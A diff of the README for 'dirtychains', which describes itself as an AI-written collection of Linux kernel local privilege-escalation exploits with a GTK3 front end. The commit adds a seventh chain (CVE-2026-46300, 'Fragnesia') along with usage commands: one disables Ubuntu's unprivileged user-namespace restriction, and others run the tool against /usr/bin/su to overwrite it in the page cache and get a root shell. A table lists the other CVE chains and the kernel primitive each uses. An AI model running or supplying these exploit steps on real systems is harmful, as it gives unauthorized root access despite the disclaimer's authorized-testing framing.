

Before and after one commit to noobcjk/dirtychains, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 89% size. Rendered like a GitHub page; pictures changed too: docs/screenshots/main.png; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -2,7 +2,7 @@
 
 !此项目由AI编写!
 
-六条 CVE 链的页缓存写原语 / 本地提权 PoC 合集，带一个 GTK3 图形前端和一个 Open vSwitch 独立引擎。
+七条 CVE 链的页缓存写原语 / 本地提权 PoC 合集，带一个 GTK3 图形前端和三个内置引擎。
 
 > **免责声明**
 > 本项目仅用于**自有设备**或**已获得书面授权的渗透测试**。
@@ -15,7 +15,7 @@
 
 | 文件 | 说明 |
 |---|---|
-| `dirtyfrag-gui.c` | **单文件主程序**：GTK3 前端 + 内置 OVS 引擎（原 `ovswrap.c` 已并入） |
+| `dirtyfrag-gui.c` | **单文件主程序**：GTK3 前端 + 内置 Fragnesia 引擎 + 内置 OVS 引擎（原 `ovswrap.c` 已并入） |
 | `dirtyfrag_lpe.c` | 五链引擎实现，也可单独编成命令行 `poc` |
 
 
@@ -29,6 +29,24 @@
 | CVE-2026-43494 | io_uring + RDS | 页引用计数劫持 |
 | CVE-2026-46331 | net/sched act_pedit | skb 越界写 |
 | CVE-2026-64531 | net/openvswitch | CT action 越界 → 伪造 SET action → 任意读 + `dst_release` 递减写 |
+| CVE-2026-46300 | XFRM / espintcp | ESP 分片被 TCP coalesce 后当普通数据 splice 回页缓存，改只读文件（Fragnesia） |
+
+### CVE-2026-46300（Fragnesia）
+
+第三个内置引擎，代码取自上游 PoC（V12 · William Bowling），入口 `--frag`。
+
+```bash
+# Ubuntu 默认禁止非特权 userns，不关这个开关会直接卡在 gate 上（退出码 4）
+sudo sysctl -w kernel.apparmor_restrict_unprivileged_userns=0
+
+./dirtychains --frag -check -t /usr/bin/su    # 只探测前置条件，不改写任何文件
+./dirtychains --frag -test  -t /usr/bin/su    # 改写页缓存后回读校验，不 exec 目标
+./dirtychains --frag -start -t /usr/bin/su    # 成功后 exec 目标 → root shell
+```
+
+退出码和另外六条链**相反**：`1` = 有漏洞（字节被改写）、`0` = 没打成、
+`2` = 参数或目标文件不合法、`4` = userns / XFRM 前置条件不满足。
+GUI 里按这个映射显示结论，不要按「0 就是成功」去读。
 
 ---
 
@@ -38,7 +56,7 @@
 # 依赖：gtk+-3.0 开发包
 sudo apt install build-essential libgtk-3-dev pkg-config
 
-make                 # GUI 单二进制 dirtychains（前端 + 五链引擎 + 内置 OVS 引擎）
+make                 # GUI 单二进制 dirtychains（前端 + 五链引擎 + Fragnesia + 内置 OVS 引擎）
 make poc             # 独立的命令行引擎
 make ovswrap         # 独立的 OVS 命令行版（不含 GTK）
 sudo make install    # 装到 /usr/local/bin，背景图与 offset/ 进 share/dirtychains
````
Also changed, not shown: docs/screenshots/cve-46300.png (added), 1 other file.
